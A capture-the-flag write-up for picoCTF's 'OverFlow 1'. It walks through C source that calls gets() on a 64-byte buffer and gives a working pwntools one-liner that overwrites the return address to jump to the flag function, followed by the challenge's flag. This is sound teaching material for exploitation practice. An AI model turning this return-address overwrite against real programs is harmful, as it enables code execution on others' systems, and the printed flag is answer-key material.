


# OverFlow 1 

Points : 150

# Question

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](vuln.c).

# Hint 

Take control that return address.
Make sure your address is in Little Endian.

# Solution

By examin the source code we can see that :

```C 
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {						<------- we have this flag function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];					<------- we get buffer size 64
  gets(buf);						<------- the program read our input using gets which is vulnerable to overflow

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();						<------- vuln get call
  return 0;
}
```

the program never call "flag" function so we need to make this happend !
as we know gets is vulnerable to buffer overflow , so if we overflow the stack and change the return adress to "flag" function address then she will get call and print the flag.

our payload need to look like this:

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE)+NEW_RETURN_ADDRESS```

first let's get "flag" function address using gdb



we can see that the address is "0x080485e6"
so now we can use python with pwn tools and run the exploit ```python -c "from pwn import *; print 'A'*(64+8)+p32(0x080485e6)" | ./vuln```




# Flag
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

